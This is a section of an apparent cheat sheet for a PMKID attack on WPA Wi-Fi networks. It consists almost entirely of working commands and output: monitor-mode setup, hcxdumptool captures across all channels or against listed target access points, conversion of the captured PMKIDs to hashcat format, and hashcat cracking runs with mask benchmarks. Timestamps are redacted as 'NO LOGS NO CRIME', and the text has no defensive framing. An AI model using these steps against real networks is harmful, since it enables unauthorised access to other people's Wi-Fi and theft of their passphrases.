 #### 5.1. References
```
https://github.com/ZerBea/hcxdumptool
https://github.com/ZerBea/hcxtools
https://github.com/hashcat/hashcat
https://hashcat.net/forum/thread-7717.html
```


#### 5.2. Target AP by MAC addresses
```
# cat targets
DEADBEEF0001
DEADBEEF0002
DEADBEEF0003
DEADBEEF0004
```


#### 5.3. Collecting PMKIDs

Prerequisites: interface must be in monitor mode
```
# iwconfig wlan0 mode monitor
```

1) *Wild Wild West* approach
```
# channels=1,2,3,4,5,6,7,8,9,10,11,12,13,14,34,36,38,40,42,44,46,48,52,56,58,60,62,64,100,104,108,112,116,120,124,128,132,,136,140,144,147,149,151,153,155,157,161,165,167,169,184,188,192,196,200,204,208,212,216
# hcxdumptool -o WWW.pcapng -i wlan0 --enable_status=3 -c $channels
```


2) Targeted
```
# hcxdumptool -o beef.pcapng -i $iface -c 136, 60, 52 \
--enable_status=3 --filterlist=beef --filtermode=2

...
[04:39:48 - 136] deadbeef0001 -> deadbeeffff1 [FOUND PMKID CLIENT-LESS]
[04:39:50 - 136] deadbeef0002 -> ffffffffffff CG-WLAN [PROBEREQUEST, SEQUENCE 2076]
[04:39:56 - 136] deadbeef0003 -> deadbeeffff2 [FOUND PMKID CLIENT-LESS]
[04:40:15 - 136] deadbeef0004 -> ffffffffffff lisy [PROBEREQUEST, SEQUENCE 517]
INFO: cha=136, rx=16166, rx(dropped)=541, tx=51, powned=2, err=0^C
terminated...
```


#### 5.4. Convert PMKID to WPA-PMKID-PBKDF2 hash
```
# hcxpcaptool -z beef.16800 beef.pcapng
...
EAPOL PMKIDs.................: 2

2 PMKID(s) written to beef.16800
# sort -u -k2,2 -t '*' beef.16800 > hashes.16800
```


#### 5.5. Cracking via `hashcat`
```
# hashcat -m 16800 hashes.16800 passwords.txt
```


#### 5.6. Hashcat benchmarks

Performance per hash type: `WPA-PMKID-PBKDF2 ~ 1440 kH/s`

Hardware info:
```
OpenCL Platform #1: NVIDIA Corporation
======================================
* Device #1: Tesla P100-PCIE-16GB, 4070/16280 MB allocatable, 56MCU
* Device #2: Tesla P100-PCIE-16GB, 4070/16280 MB allocatable, 56MCU
* Device #3: Tesla P100-PCIE-16GB, 4070/16280 MB allocatable, 56MCU
* Device #4: Tesla P100-PCIE-16GB, 4070/16280 MB allocatable, 56MCU
```

Test 1:
```
Time.Started.....: [NO LOGS NO CRIME] (1 min, 46 secs)
Time.Estimated...: [NO LOGS NO CRIME] (1 hour, 47 mins)
Guess.Mask.......: ?d?d?d?d?d?d?d?d?d?d [10]
Guess.Queue......: 1/1 (100.00%)
```

Test 2:
```
Time.Started.....: [NO LOGS NO CRIME] (2 mins, 34 secs)
Time.Estimated...: [NO LOGS NO CRIME] (8 days, 6 hours)
Guess.Mask.......: ?1?1?1?1?1?1?1?1?1?1 [10]
Guess.Charset....: -1 abcdef0123456789, -2 Undefined, -3 Undefined, -4 Undefined 
Guess.Queue......: 1/1 (100.00%)
```

Test 3:
```
Time.Started.....: [NO LOGS NO CRIME] (1 min, 13 secs)
Time.Estimated...: [NO LOGS NO CRIME] (1 day, 14 hours)
Guess.Mask.......: ?l?l?l?l?l?l?l?l [8]
Guess.Queue......: 1/1 (100.00%)
```

Test 4:
```
Time.Started.....: [NO LOGS NO CRIME] (59 secs)
Time.Estimated...: [NO LOGS NO CRIME] (4 mins, 54 secs)
Guess.Base.......: File (crackstation-human-only.txt)
Guess.Queue......: 1/1 (100.00%)
```
